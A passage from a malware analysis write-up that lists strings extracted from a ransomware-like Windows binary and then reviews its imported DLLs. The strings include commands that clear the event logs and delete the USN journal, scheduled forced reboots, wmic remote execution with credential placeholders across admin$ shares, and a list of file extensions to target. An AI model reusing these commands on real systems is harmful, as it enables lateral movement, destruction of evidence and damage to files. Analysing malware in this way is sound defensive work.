 ```
DhcpEnumSubnets
DhcpEnumSubnetClients
NetServerEnum
AdjustTokenPrivileges
perfc.dat
MIIBCgKCAQEAxP/VqKc0yLe9JhVqFMQGwUITO6WpXWnKSNQAYT0O65Cr8PjIQInTeHkXEjfO2n2JmURWV/uHB0ZrlQ/wcYJBwLhQ9EqJ3iDqmN19Oo7NtyEUmbYmopcq+YLIBZzQ2ZTK0A2DtX4GRKxEEFLCy7vP12EYOPXknVy/+mf0JFWixz29QiTf5oLu15wVLONCuEibGaNNpgq+CXsPwfITDbDDmdrRIiUEUw6o3pt5pNOskfOJbMan2TZu6zfhzuts7KafP5UA8/0Hmf5K3/F9Mf9SE68EZjK+cIiFlKeWndP0XfRCYXI9AJYCeaOu7CXF6U0AVNnNjvLeOn42LHFUK4o6JwIDAQAB
C:\Windows;
.3ds.7z.accdb.ai.asp.aspx.avhd.back.bak.c.cfg.conf.cpp.cs.ctl.dbf.disk.djvu.doc.docx.dwg.eml.fdb.gz.h.hdd.kdbx.mail.mdb.msg.nrg.ora.ost.ova.ovf.pdf.php.pmf.ppt.pptx.pst.pvi.py.pyc.rar.rtf.sln.sql.tar.vbox.vbs.vcb.vdi.vfd.vmc.vmdk.vmsd.vmx.vsdx.vsv.work.xls.xlsx.xvd.zip.
Microsoft Enhanced RSA and AES Cryptographic Provider
README.TXT
\\.\pipe\%ws
TERMSRV/
127.0.0.1
SeTcbPrivilege
SeShutdownPrivilege
SeDebugPrivilege
C:\Windows\
\cmd.exe
wevtutil cl Setup & wevtutil cl System & wevtutil cl Security & wevtutil cl Application & fsutil usn deletejournal /D %c:
schtasks %ws/Create /SC once /TN "" /TR "%ws" /ST %02d:%02d
at %02d:%02d %ws
shutdown.exe /r /f
/RU "SYSTEM"
dllhost.dat
-d C:\Windows\System32\rundll32.exe "C:\Windows\%s",#1
wbem\wmic.exe
%s /node:"%ws" /user:"%ws" /password:"%ws"
process call create "C:\Windows\System32\rundll32.exe \"C:\Windows\%s\" #1
\\%s\admin$
\\%ws\admin$\%ws
```

So much useful output definitely means it's not packed!

### Checking the PE headers
Next I used PE Explorer and CFF Explorer to check what libraries it imports and what functions it exports. This also hinted that the binary probably isn't packed (many imported DLLs).

Imports:
```
kernel32.dll -> functions for working with files, processes, threads, memory...
user32.dll
advapi32.dll -> crypto functions
shell32.dll
ole32.dll
crypt32.dll -> crypto functions
shlwapi.dll -> functions for working with strings and filesystem paths
iphlpapi.dll
ws2_32.dll -> for setting up sockets
mpr.dll
netapi32.dll
dhcpsapi.dll
msvcrt.dll -> malloc, memset, free, rand
```
